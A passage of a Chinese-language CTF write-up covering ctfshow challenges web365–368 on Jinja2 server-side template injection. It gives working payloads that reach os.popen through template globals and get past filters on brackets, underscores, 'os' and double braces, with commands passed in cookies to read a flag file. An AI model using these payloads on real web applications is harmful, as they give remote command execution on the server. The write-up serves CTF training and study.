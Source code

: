 出现 Method Not Allowed

尝试使用cookie传参：(注意cookie是用`;`隔开)

```python
{{config.__class__.__init__.__globals__[request.cookies.a].popen(request.cookies.b).read()}}
a=os;b=cat /flag
```

以上`config.__class__.__init__.__globals__`可替换成`url_for.__globals__`

#### web365过滤中括号

中括号可以换成`.`，因为jinja2对它俩的解析方式其实一样，也可以使用`__getitem__`

```python
{{url_for.__globals__.os.popen(request.cookies.a).read()}}
cookie: a=cat /flag

{{url_for.__globals__.__getitem__(request.cookies.b).popen(request.cookies.a).read()}}
cookie: a=cat /flag;b=os
```



#### web366过滤下划线__

实测发现中括号也被过滤，基于上面题多加了过滤，所以不能使用[request……]的方法过滤

<font color='red'>attr获取变量</font>(不是获取方法)

```python
""|attr("__class__") 相当于
"".__class__
```

配合request使用即可避免使用下划线

```
{{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}
cookie: a=__globals__;b=cat /flag
```

注意要把`lipsum|attr(request.cookies.a)`用小括号括起来！



#### web367过滤OS

尝试使用get()替换上题中的os

```
{{(lipsum|attr(request.cookies.a)).get(request.cookies.c).popen(request.cookies.b).read()}}
cookie: a=__globals__;b=cat /flag;c=os
```



#### web368过滤了双花括号

用`{% %}`代替，并用print()打印回显

payload: `{%print(上一题payload)%}`
